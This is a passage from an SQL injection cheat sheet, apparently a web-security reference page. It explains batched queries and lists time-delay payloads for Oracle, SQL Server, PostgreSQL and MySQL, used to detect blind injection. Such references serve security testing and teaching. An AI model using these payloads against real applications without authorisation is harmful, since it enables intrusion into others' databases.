 You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

<table>
<tr>
    <td><strong>Oracle</td>
    <td>Does not support batched queries. </td>
</tr>
<tr>
    <td><strong>Microsoft</td>
    <td>QUERY-1-HERE; QUERY-2-HERE</td>
</tr>
<tr>
    <td><strong>PostgreSQL</td>
    <td>QUERY-1-HERE; QUERY-2-HERE</td>
</tr>
<tr>
    <td><strong>MySQL</td>
    <td>QUERY-1-HERE; QUERY-2-HERE</td>
</tr>
</table>

#### Note

With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

Time delays
-----------

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

<table>
<tr>
    <td><strong>Oracle</td>
    <td>dbms_pipe.receive_message(('a'),10) </td>
</tr>
<tr>
    <td><strong>Microsoft</td>
    <td>WAITFOR DELAY '0:0:10'</td>
</tr>
<tr>
    <td><strong>PostgreSQL</td>
    <td>SELECT pg_sleep(10)</td>
</tr>
<tr>
    <td><strong>MySQL</td>
    <td>SELECT SLEEP(10)</td>
</tr>
</table>
